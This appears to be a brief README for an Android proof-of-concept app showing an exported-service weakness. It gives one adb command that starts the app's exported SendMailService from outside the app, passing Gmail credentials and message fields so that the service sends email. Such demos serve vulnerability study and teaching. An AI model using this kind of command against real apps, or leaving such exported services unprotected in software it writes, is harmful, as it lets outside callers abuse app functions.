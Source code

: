 # Exported Service

- Install on Android device/emulator
- Exploit:
  - ADB command: ```./adb shell am startservice -n "com.poc.exported_service/com.poc.exported_service.SendMailService" --es username "your-gmail" --es password "your-gmail-password" --es gmail "destination-gmail" --es subject "Test.adb.Exported.Service" --es content "success.oh.yeah"```
  - Check mail
